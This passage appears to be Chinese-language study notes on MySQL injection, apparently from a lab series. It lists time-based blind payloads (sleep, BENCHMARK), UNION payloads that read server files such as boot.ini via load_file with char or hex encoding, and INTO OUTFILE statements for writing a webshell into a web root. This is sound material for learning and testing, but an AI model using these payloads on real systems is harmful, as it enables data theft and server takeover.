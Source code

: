 ```mysql
1. and If(ascii(substr(database(),1,1))=115,1,sleep(5))--+  //sleep()函数注入
2. UNION SELECT (IF(SUBSTRING(current,1,1)=CHAR(115),BENCHMARK(50000000,ENCODE('MSG','by 5 seconds')),null)),2,3 FROM (select database() as current) as tb1--+  //BENCHMARK()函数注入
BENCHMARK(count,expr)用于测试函数的性能， 参数一为次数， 二为要执行的表达式。 可以让函数执行若干次， 返回结果比平时要长， 通过时间长短的变化， 判断语句是否执行成功。 这是一种边信道攻击， 在运行过程中占用大量的 cpu 资源。 推荐使用 sleep()
```

**导入导出相关操作** (参考page1-7)

```mysql
1. load_file()导出文件：load_file(file_name)读取文件并返回该文件内容作为字符串
   1. 必须有权限读取并且文件必须完全可读
      and (select count(*) from mysql.user)>0/* 如果结果返回正常,说明具有读写权限 返回错误， 应该是管理员给数据库帐户降权  
   2. 读取文件必须在服务器上
   3. 必须指定文件完整路径
   4. 读取文件必须小于max_allowed_packet  

      //任意不满足都返回空。难点是绝对物理路径和构造有效畸形语句(报错出绝对路径)

      在很多 PHP 程序中， 当提交一个错误的 Query， 如果 display_errors = on， 程序就会暴露
      WEB 目录的绝对路径， 只要知道路径， 那么对于一个可以注入的 PHP 程序来说， 整个服务
      器的安全将受到严重的威胁。  http://www.cnblogs.com/lcamry/p/5729087.html

      示例： Select 1,2,3,4,5,6,7,hex(replace(load_file(char(99,58,92,119,105,110,100,111,119,115,92,114,101,112,97,105,114,92,115,97,109)))
      利用 hex()将文件内容导出来， 尤其是 smb 文件时可以使用。

      -1 union select 1,1,1,load_file(char(99,58,47,98,111,111,116,46,105,110,105))
      Explain： “char(99,58,47,98,111,111,116,46,105,110,105)” 就是“c:/boot.ini” 的 ASCII 代码

      -1 union select 1,1,1,load_file(0x633a2f626f6f742e696e69)
      Explain： “c:/boot.ini” 的 16 进制是“0x633a2f626f6f742e696e69”

      -1 union select 1,1,1,load_file(c:\\boot.ini)
      Explain:路径里的/用 \\\代替  

2. 文件导入到数据库：LOAD DATA INFILE用于高速地从一个文本文件读取行，并装入表中
   1. (需要特殊文件，如配置文件、密码文件，将系统文件利用load data infile导入数据库)
   2. 示例： load data infile '/tmp/t0.txt' ignore into table t0 character set gbk fields terminated by '\t'
      lines terminated by '\n'  

3. 导入到文件：SELECT.....INTO OUTFILE 'file_name'  把被选择行写入文件中，文件被创建到服务器，需要有file权限，而且文件不能已存在
   1. Select version() into outfile “c:\\phpnow\\htdocs\\test.php”  //一句话木马用法,version替换
   2. Select version() Into outfile “c:\\phpnow\\htdocs\\test.php” LINES TERMINATED BY 0x16   //改文件结尾，0x16可以是一句话或任意代码
      1. 注意文件路径转义
      2. select load_file(‘c:\\wamp\\bin\\mysql\\mysql5.6.17\\my.ini’)into outfile ‘c:\\wamp\\www\\test.php’  //前台无法导出数据时，配合该语句(非常多配置文件都可以导出)
```

**增删改查**(参考page3-38)

